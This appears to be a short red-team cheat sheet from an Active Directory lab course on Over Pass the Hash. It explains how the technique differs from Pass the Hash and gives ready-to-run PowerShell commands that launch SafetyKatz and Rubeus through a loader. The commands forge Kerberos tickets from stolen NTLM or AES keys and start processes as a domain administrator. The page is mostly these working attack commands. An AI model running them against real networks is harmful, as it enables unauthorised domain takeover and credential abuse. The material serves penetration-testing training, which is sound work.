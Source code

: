 Over Pass the hash (OPTH) generate tokens from hashes or keys - Kerberos only

> [!NOTE] **NOTE**
> Difference between `PTH` and `OPTH` is PTH` `uses local users and `OPTH` uses a domain users credentials to generate tickets and run processes in their context

Over Pass the hash (OPTH) generate tokens from hashes or keys. Needs
elevation 
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "sekurlsa::pth /user:administrator /domain: dollarcorp.moneycorp.local/aes256:<aes256keys> /run:cmd.exe" "exit"
```

The above commands starts a process with a logon type 9 (same as runas
/netonly). This means that if you run a `whoami` it will still show as the low priv user, but when you access domain resources it will use the domain administrator credentials.

Rubeus (does not need elevation) - this overwrites your current tickets
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:administrator /rc4:<ntlmhash> /ptt
```

Elevation required to create a new process
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```